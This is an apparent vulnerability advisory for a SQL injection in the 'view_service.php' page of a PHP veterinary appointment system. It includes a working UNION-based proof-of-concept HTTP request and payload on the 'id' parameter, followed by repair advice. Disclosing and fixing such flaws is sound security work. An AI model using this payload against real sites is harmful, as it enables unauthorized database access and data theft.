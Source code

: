 # sourcecodester.com"Online Veterinary Appointment System" in PHP 1.0 "view_service.php" SQL injection

# BUG_AUTHOR：Yang YiLing

# NAME OF AFFECTED PRODUCT(S)
- Online Veterinary Appointment System using PHP/OOP Free Source Code

## Vendor Homepage
https://www.sourcecodester.com/php/15119/online-veterinary-appointment-system-using-phpoop-free-source-code.html

# AFFECTED AND/OR FIXED VERSION(S)

## submitter
- Yang YiLing
## Vulnerable File
- /ovas/admin/services/view_service.php
## VERSION(S)
- V1.0

## Software Link
https://www.sourcecodester.com/download-code?nid=15119&title=Online+Veterinary+Appointment+System+using+PHP%2FOOP+Free+Source+Code

# PROBLEM TYPE
## Vulnerability Type
- SQL injection
## Root Cause
- A SQL injection vulnerability was found in the 'view_service.php' file of the 'Online Veterinary Appointment System' project. The reason for this issue is that attackers inject malicious code from the parameter "id" and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact
- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION
- During the security review of the PHP "Online Veterinary Appointment System", "Yang YiLing" discovered a critical SQL injection vulnerability in the "view_service.php" file. This vulnerability stems from insufficient user input validation of the "id" parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# login or authorization is required to exploit this vulnerability
# Vulnerability details and POC
```sql
GET /ovas/admin/services/view_service.php?id=-4%27%20union%20select%201,2,database(),4,5,6,7,8--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=i9equpjmuu8ha113o4sn8hf0cv
Connection: close
```
## Vulnerability type:
- UNION query

## Vulnerability location:
- 'id' parameter
## Payload:
<hr>
Payload: /ovas/admin/services/view_service.php?id=-4' union select 1,2,database(),4,5,6,7,8--+

![image](https://github.com/user-attachments/assets/97e047c4-6941-4588-9250-3a1559447467)

<hr>

![image](https://github.com/user-attachments/assets/4e42a852-4bcb-4408-8363-6f11d3e34141)

# Suggested repair
1. Use prepared statements and parameter binding:
   
   Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.

3. Input validation and filtering:
   
   Strictly validate and filter user input data to ensure it conforms to the expected format.

5. Minimize database user permissions:
   
   Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.

7. Regular security audits:
   
   Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.
